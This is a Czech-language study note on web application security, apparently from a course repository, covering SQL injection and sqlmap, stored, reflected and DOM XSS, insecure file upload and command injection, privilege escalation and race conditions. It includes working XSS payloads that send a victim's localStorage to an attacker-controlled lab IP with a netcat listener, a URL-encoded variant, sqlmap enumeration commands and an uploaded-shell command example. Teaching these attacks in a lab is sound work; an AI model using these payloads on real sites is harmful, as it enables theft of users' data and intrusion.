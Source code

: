 # Bezpečnost webových technologií

Slabá místa ve webových aplikacích:

**SQL Injection**

-   Zranitelost, která napadá databázovou vrstvu programu, kde se propojuje s aplikační vrstvou a přes neošetřený vstup následuje vložení kódu a vykonání vlastního pozměňujícího škodlivého SQL příkazu (dotazy DELETE, UPDATE apod.)

-   Díky této technice lze získat například přihlašovací údaje někoho jiného, přihlašovací údaje na admininstrátora apod., v některých případech možnost i měnit samotné data v databázích nebo může u nějakých konfigurací být přístupné i CMD nebo data v souborech


- Nejčastější a nejjednodušší technikou bývá **error based SQLi**

  -   Nejčastější při přihlašování - hodnota v emailu a heslu (textbox)

  - Záleží na syntaxi dané databáze - většinou zjistíme tuto zranitelnost pomocí escapování z „" v jménu, kdy s dvojitou uvozovkou člověk v podstatě vyskočí z očekávaného stringu

    ![sqli](./Images/18-sqli.png)

  - Prevence: Nutnost filtrovat různé mezery, apostrofy apod. jakožto zakázané znaky (sada speciálních znaků)

-   **Escapovací funkce** - V ČR to není příliš častý problém, ale v zahraničí, nejčastěji Americe, tak bývá součástí jména speciální znak (apostrof). V takovou chvíli před apostrof ve jméně je potřeba dát \ - tím bude řečeno databázovému serveru, že apostrof je v tu chvíli jen součást jména a ne apostrof jakožto kód

- Tuto zranitelnost v kódu najdu pokud hodnoty z formuláře jdou přímo do SQL dotazu. V tu chvíli je vstup neošetřený.

  

- <u>BURPSUITE + Proxy a například XVWA (vulnarable aplikace)</u> - Vhodné na pochopení funkce SQLi

- **Syntax error (Error based app)** - 1x apostrof = error / 500, ale když ho zdvojíme, žádná chybová hláška = aplikace je zranitelná

- Existují také **blind** SQLi - Nedávají odezvu v podobě chybových hlášek apod.

  -   Do SQL dotazu dáme sleep (generic blind SQLi.txt) - BURP -\> Intruder

  -   Pokud odpovědi na něco trvají příliš dlouho, opět je to chvíle, kdy je velká pravděpodobnost, že aplikace je zranitelná SQL

  -   Najdeme konkrétní HTML požadavek v browseru, který dáme do sqlmap a ten nám pomůže s analýzou

**Sqlmap**

- Jedná se o open-source program na penetrační testování, který je schopný automatizovat proces zjišťování a analyzování SQLi chyb ve webových aplikacích.

- `sqlmap --url http://recon.local:8082/xvwa/vulnarabilities/sqli_blind/ --data 'item=&search=' p search --dbs`
  - Příklad využití programu sqlmap na XVWA - viz řečeno výše, možnost definovat mnoho parametrů (vyhledávání například uživatelů v databázích, jakožto konkrétní položky apod. - více viz manuál)
- `sqlmap -u <url> --wizard`
  - Sqlmap disponuje také parametrem --wizard, který je nejvíce amatérskou volbou. Nic se nedefinuje a vše je jednodušší, program vyřeší mnoho souvislostí za vás.



**XSS**

- Cross-site scripting = zranitelnost, která se týká klientské strany - JS v prohlížeči - možnost vložit \<script> do nějakého formuláře, databáze apod., který je veřejně přístupný i pro jiné uživatele - je pak vykreslen a tím se spustí

- **Poddruhy:**

  -   <u>Stored</u>
      -   Útočník uloží nějaké data do databáze - využije pouze nějakou funkcionalitu na webové stránce, která využívá databázi - data musí být následně vypisována, nejčastěji se jedná o nějaký vzkaz například na fórech apod. - tímto se dají vykrást například cookies, localstorage apod...
      -   `<script> const Http = new XMLHttpRequest(); const url="http://10.2.0.2:444/?a=" + JSON.stringify(localStorage); Http.open("GET", url); Http.send(); </script>`
      -   Poté použijeme `netcat -vlp` na portu `444` z pohledu útočníka
  -   Reflected

      -   Funguje na bázi nějakého požadavku odesílaného v URL pomocí GET

      -   Tudíž máme nějakou URL, v který je právě obsažen nějaký script a jakmile ho rozklikne uživatel, tak získáme, co jsme chtěli

      -   Použijeme wget + URL encoder

          -   `http://10.2.0.3/browser/open/%3Cscript%3E%20Http%20%3D%20new%20XMLHttpRequest()%3B%20Http.open(%22GET%22%2C%20%22http%3A%2F%2F10.2.0.2%3A444%2F%3Fa%3D%22%20%2B%20JSON.stringify(localStorage))%3B%20Http.send()%3B%20%3C%2Fscript%3E%20`
  -   DOM

      -   Za parametry ?search=, ?default= apod. dokážeme do URL vložit opět JS, spoléhá na načítání dat v nějaké části aplikace, čistě v rámci front -end bez databází

      -   Méně viditelná zranitelnost na první pohled, nejčastěji se problémy naleznou v kódu v `document.location/write` apod.

      -   Na hledání této zranitelnosti: GITHUB - Regex (Finding DOMXSS)

      -   Funkce unescape vytvoří to, že je možné právě ten script spustit - pokud tam není, tak jsou speciální znaky zakodované na URL coding

      -   Opět stačí pouze odeslat URL jako u Reflected

  

  -   **Co sledovat?** (proof of concept)
  -   1\) Data se musí vracet a vykreslovat
      
  -   2\) Zkusíme potenciálně nebezpečné znaky \<\>/ apod. -\> pokud nejsou encoded, tak potenciální zranitelnost
      
  -   3\) Zjištění na jakém místě se vkládají data v kódu (revize prvku)
      
  -   4\) Možnost že je to v URL, v \<p> apod. někdy potřeba nejdřív uzavřít „" a pak teprve JS - Filtry se dají různě obcházet...




**Insecure File Upload**, **Command injection**

-   Na nahrávání nějakého souboru na server umožní kód nahrát například vlastní soubor, který se spustí v databázi (exe, sh apod.) a z ní extrahuje nějaká data, dokáže spouštět příkazy v shellu apod.

-   Většinou vzniká tím, že jsou špatně nastavené filtry, které řeší koncovky souborů nebo není zahrnutý cross-site request

-   Nahraju soubor, který bude mít dvě koncovky (např.: script.jpg.sh), filtr přečte koncovku, která následuje po první tečce a zbytek vypustí -> v tu chvíli se soubor nahraje a je přístupný
    -   V takovou chvíli mohu přes URL operovat například s příkazovou řádku, pokud jsme nahráli zrovna tu (?cmd=cat /flag)



**Logické zranitelnosti**:

- **Eskalace práv**

  -   Objevení nějaké chyby / bugu v aplikaci, která vyvolá to, že útočník získá přístup k možnostem vyšších / jiných uživatelů, které by pro něj měli být zakázané (např. roota)

  -   Rozlišujeme dva typy eskalace práv:

      -   **Vertikální:** Uživatel nižší vrstvy (např. user) se dostane na práva uživatelů vyšší vrstvy (administrátoři apod.)

      -   **Horizontální:** Eskalace ve stejné vrstvě - například User A se dostane ze svého bankovního účtu na účet User B

  - Za příkladem takové eskalalace práv nemusíme chodit daleko. Mnoho z IoS uživatelů v minulosti využilo možnosti Jailbreaku, což je v podstatě právě eskalace práv

    

- **Race condition**

  -   Jedná se o **souběh vykonavatelných příkazů v jednu chvíli**, kdy například ověřuji, vždy při výběru stav účtu, že lze vybrat danou částku, ovšem toto ověření se stane jednou a pod ním je možnost vybrat z účtu a jestliže tento výběr provedu víckrát v jeden přesný moment, tak se již neověřuje, že doopravdy tolik na účtu mám - vyberu více než-li tam doopravdy bylo
  -   Tip: Pokud vám race condition nefunguje, nezapomeňte, že příkaz chceme spustit na pozadí, takže na závěr příkazu přidejte &
      -   https://defuse.ca/race-conditions-in-web-applications.htm

![PHP Race Condition](./Images/18-race.png)



